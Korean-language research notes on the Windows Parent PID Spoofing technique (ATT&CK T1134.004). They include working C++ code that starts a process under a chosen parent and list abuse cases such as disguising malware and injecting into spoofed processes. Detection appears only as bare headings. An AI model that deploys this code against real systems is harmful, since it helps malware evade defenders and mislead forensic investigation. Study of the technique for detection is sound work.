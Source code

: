 ```yaml
---
title: "Parent Pid Spoofing"
layout: post
---
```


# Parent Pid Spoofing [T1134.004]

1. 개요
PPID를 원하는 대상의 PID로 바꾸는 기법이다.

defender가 프로세스의 부모 프로세스 명을 확인할 때 우회하는 용도로 쓰일 수 있어보인다. 
또한 포렌식할 때도 혼돈을 줄 수 있어보인다.



2. 설명
일반적으로 Creator Process는 Parent Process와 같다.

하지만 Creator Process와 Parent Process를 분리할 수 있는 방법이 있다.

이 방법은 Windows 내부에서도 사용되는데,
Windows internals 7th Part 1의 Chapter 7 Security - User Account Control And virtualization - Elevation - Running with administrative rights를 보자

관리자 권한으로 실행시 AIS(Application Information Service)


참고 :  - [ETW 설명](../../Tracing/ETW/Windows_Kernel_Trace/Process/kor.md) 


3. 구현
코드는 제작중인 분탕 프로젝트의 코드를 참조한다. - https://github.com/Ddatg30/Buntang

```cpp
DWORD AccessTokenManipulation::ParentPidSpoofing(DWORD parent_proc_infod, const std::wstring& process_path){
		SIZE_T size = 0;
		PVOID buffer = nullptr;
		STARTUPINFOEX start_info = { sizeof(start_info) };
		PROCESS_INFORMATION proc_info = { };
		HANDLE process_handle = nullptr;

		process_handle = ::OpenProcess(PROCESS_CREATE_PROCESS, FALSE, parent_proc_infod);
		if (process_handle == nullptr){
			return ::GetLastError();
		}

		::InitializeProcThreadAttributeList(nullptr, 1, 0, &size);
		if (size != 0){
			buffer = ::malloc(size);

			PPROC_THREAD_ATTRIBUTE_LIST attributes = reinterpret_cast<PPROC_THREAD_ATTRIBUTE_LIST>(buffer);

			::InitializeProcThreadAttributeList(attributes, 1, 0, &size);
			if (attributes != nullptr){
				::UpdateProcThreadAttribute(attributes, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &process_handle, sizeof(process_handle), nullptr, nullptr);
				start_info.lpAttributeList = attributes;

				// CREATE_NEW_CONSOLE flag is avoid error 0xC0000142 
				if (!::CreateProcessW(nullptr, const_cast<LPWSTR>(process_path.data()), nullptr, nullptr, FALSE, CREATE_NEW_CONSOLE | EXTENDED_STARTUPINFO_PRESENT, nullptr, nullptr, reinterpret_cast<STARTUPINFO*>(&start_info), &proc_info)){
					return ::GetLastError();
				}

				::DeleteProcThreadAttributeList(attributes);
				::CloseHandle(proc_info.hProcess);
				::CloseHandle(proc_info.hThread);
			}

			::free(buffer);
		}

		::CloseHandle(process_handle);

		return ERROR_SUCCESS;
	}
}
```

여담.
모든 if 문에 else로 return ::GetLastError(); 코드를 넣지 않았다.
해당 부분은 웬만해서는 에러가 일어나지 않기 때문이다.

4.  해설
InitializeProcThreadAttributeList로 프로세스 특성 설정 후 
UpdateProcThreadAttribute로 특성 설정 세팅 한 뒤 CreateProcessW로 프로세스 생성

spoofing 할 process를 CreateProcessW를 통해 생성 할 때 CREATE_NEW_CONSOLE이나 CREATE_NO_WINDOW flag를 주지않으면 0xC0000142 에러가 발생한다.



6.  현재 문제점
- UWP 앱에는 parent pid spoofing 행위를 하면 제약이 많다.
- spoofing 한 process가 createprocess를 호출하면 에러가 생긴다.
createprocess만 에러가 생기는것인지, 아니면 kernelbase를 통한 호출하는 모든 winapi들이 문제가 생기는 것인지 확인해야 한다.
![Description of Image](./parentpidspoofing_createprocess_error.PNG)

kernelbase를 통하지 않는 ShellExecuteEx()나 NtCreateUserProcess()등을 호출해서 생성하는 경우에는 에러가 발생하지 않는다.



6.  활용
악성 프로그램을 spoof 프로세스로 이용
정상 프로그램을 spoof 프로세스로 만든 후 해당 프로세스에 인젝션



8.  탐지

7.1 etw

7.2 dtrace

7.3 kernel driver (PsSetCreateProcessNotifyRoutineEx)


더 연구해야 할 사항
1. office document에서는 PowerShell/Rundll32를 활용하는 것 같다. 해당 부분을 연구해 봐야한다.
2. Parent Pid Spoofing으로 Privilege Escalation이 가능한지 - windows 7 에서만 되는 것 같다?


